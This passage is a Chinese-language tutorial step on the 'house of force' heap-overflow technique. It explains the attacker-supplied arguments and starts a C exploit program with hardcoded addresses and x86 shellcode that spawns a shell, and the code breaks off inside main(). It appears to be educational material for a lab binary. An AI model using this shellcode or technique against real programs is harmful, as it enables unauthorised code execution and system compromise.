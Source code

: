 ![3](../img/0740babb8f045dde5c9c394e94d2bfc5.png)

漏洞程序的行`[2]`是堆溢出发生的地方。因此为了成功利用堆溢出，攻击者需要提供下面的命令行参数：

*   `argv[1]` – 需要复制到第一个 malloc 块的 shellcode + 填充 + top 块大小。
*   `argv[2]` – 第二个 malloc 块的大小参数。
*   `argv[3]` – 复制到第三个 malloc 块的用户输入。

利用程序：

```
/* Program to exploit executable 'vuln' using hof technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

#define VULNERABLE "./vuln"
#define FREE_ADDRESS 0x08049858-0x8
#define MALLOC_SIZE "0xFFFFF744"
#define BUF3_USER_INP "\x08\xa0\x04\x08"

/* Spawn a shell. Size - 25 bytes. */
char scode[] =
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main( void )
{       
        int i;
        char * p;
        char argv1[ 265 ];
        char * argv[] = { VULNERABLE, argv1, MALLOC_SIZE, BUF3_USER_INP, NULL };

```